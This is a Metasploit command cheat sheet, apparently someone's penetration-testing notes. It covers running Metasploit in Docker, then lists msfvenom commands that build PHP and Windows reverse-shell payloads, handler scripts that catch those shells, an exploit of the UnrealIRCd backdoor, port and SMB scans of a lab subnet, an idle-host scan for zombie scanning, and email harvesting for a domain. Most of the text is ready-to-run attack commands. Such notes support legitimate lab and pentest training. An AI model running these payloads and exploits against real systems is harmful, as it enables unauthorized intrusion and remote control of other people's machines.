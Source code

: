 #### 1. About

- URL: `github.com/rapid7/metasploit-framework`
- metasploit framework


#### 2. Setup and run

Install:
```
# docker pull metasploitframework/metasploit-framework
# docker tag metasploitframework/metasploit-framework:latest msf
```

Expose ports on specific IP address and run:
```
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# docker run --name msf -e ip=$ip -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# docker exec -it msf /usr/src/metasploit-framework/msfconsole
```

Aliases (`~/.bash_aliases`, `~/.profile`, or `~/.zsh/aliasrc`):
```
# f="$HOME/.zsh/aliasrc"
# [[ -z `grep masfvenom $f` ]] && echo 'alias msfvenom="docker exec -it msf /usr/src/metasploit-framework/msfvenom"' >> $f
# [[ -z `grep msfconsole $f` ]] && echo 'alias msfconsole="docker exec -it msf /usr/src/metasploit-framework/msfconsole"' >> $f
```


#### 3. Example 1
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=4001 R -o /tmp/msf/payload.php
# cat << EOF > /tmp/shell.rc
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/shell.rc
```


#### 4. Example 2
```
# cat << EOF > /tmp/exploit.rc
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.11
set RPORT 6697
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/exploit.rc
```


#### 5. Example 3 (custom exploit)
```
# docker run --name msf -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# msfvenom -p windows/shell_reverse_tcp LHOST=172.16.201.160 LPORT=4001 EXITFUNC=thread -b '\x00\x0a\x0d' -f python -v buffer
# cat << EOF > /tmp/handler.rc
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set EXITFUNC thread
set LHOST 10.10.10.11
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/handler.rc
```


#### 6. Multi-handler and listeners for both x86 / x64

a) Payloads
```
# msfvenom -p windows/x64/shell/reverse_tcp -f raw -o /tmp/x64_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=6666
# msfvenom -p windows/shell/reverse_tcp -f raw -o /tmp/x86_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=5555
```

b) Listeners:
```
# cat << EOF > handler.cfg
use exploit/multi/handler
set LHOST 10.10.10.11
set ExitOnSession false
set EXITFUNC thread
set PAYLOAD windows/x64/shell/reverse_tcp
set LPORT 6666
exploit -j
set PAYLOAD windows/shell/reverse_tcp
set LPORT 5555
exploit -j
EOF
# /etc/init.d/postgresql start
# msfconsole -qr handler.cfg
```


#### 7. Port scanning

a) SYN scan
```
# q="use auxiliary/scanner/portscan/syn; \
   set INTERFACE tap0; \
   set PORTS 80; \
   set RHOSTS 10.11.1.*; \
   set THREADS 10; \
   run; exit y \
"
# msfconsole -qx "$q"
```

b) TCP scan
```
# q="use auxiliary/scanner/portscan/tcp; \
   set RHOSTS 10.11.1.*; \
   set PORTS 80; \
   set THREADS 5; \
   run; exit y \
"
# msfconsole -qx "$q"
```

c) SMB scan
```
# q="use auxiliary/scanner/smb/smb_version; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```

d) Find idle boxes for zobie scan
```
# q="use auxiliary/scanner/ip/ipidseq; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```


#### 8. Enumeration

a) Find emails on domain
```
# domain='example.com'
# q="use auxiliary/gather/search_email_collector; set DOMAIN $domain; run; exit y"
# msfconsole -qx "$q" | grep -oE "[-0-9a-zA-Z_]{1,}@$domain"
email@example.com
user@example.com
```


#### 9. MSF Database Cache
```
# systemctl start postgresql
# msfdb init
msf > db_status
msf > db_rebuild_cache
```
